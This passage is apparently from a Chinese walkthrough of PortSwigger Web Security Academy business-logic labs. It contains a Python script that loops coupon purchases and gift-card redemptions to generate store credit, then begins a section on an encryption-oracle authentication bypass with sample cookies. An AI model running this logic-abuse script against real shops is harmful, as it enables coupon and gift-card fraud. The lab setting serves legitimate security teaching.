按照这个逻辑去编写python脚本。

```python
import requests
import re

if __name__ == '__main__':
    url = 'https://ac121f421e849e7480f2059b00b7002d.web-security-academy.net'
    cookie = {'session': 'HP8aliPkLUF8AZnd6spPM4Gur4HvuhjG'}
    for i in range(1000):
        # 添加card到购物车
        body1 = {'productId': 2, 'quantity': 1, 'redir': 'CART'}
        re1 = requests.post(url + '/cart', body1, cookies=cookie)
        # 添加优惠券
        pattern = r'<input required type="hidden" name="csrf" value="(.*)">'
        token = re.compile(pattern).findall(re1.text)[0]
        body = {'csrf': token, 'coupon': 'SIGNUP30'}
        re2 = requests.post(url + "/cart/coupon", body, cookies=cookie)
        # 购买
        token = re.compile(pattern).findall(re2.text)[0]
        body = {'csrf': token}
        re3 = requests.post(url + "/cart/checkout", body, cookies=cookie)
        # GET account页面
        re4 = requests.get(url + "/my-account", cookies=cookie)
        # 输入 card CODE
        token = re.compile(pattern).findall(re4.text)[0]
        pattern_code = r'''<tr>
                                <th>Code</th>
                            </tr>
                            <tr>
                                <td>(.*)</td>
                            </tr>'''
        gift_code = re.compile(pattern_code).findall(re3.text)[0]
        body = {'csrf': token, 'gift-card': gift_code}
        re5 = requests.post(url + "/gift-card", body, cookies=cookie)

        print(i, "is ok")
        
```

钱跑够了就可以买了。

## 11. Authentication bypass via encryption oracle

保持登陆选项勾上之后，cookie加上了这个

`stay-logged-in=UBPOTjw2SvNG%2fvujATFj8djDkK2TLs%2bLuOzJN7c84aI%3d`。

`UBPOTjw2SvNG/vujATFj8djDkK2TLs+LuOzJN7c84aI=`

当在评论区输入不合格的邮箱时，会被添加cookie

`notification=ltdjgStwAC6Duo4jDe9NuZPswvgVlMTLb20XR3Xl2IE%3d`。
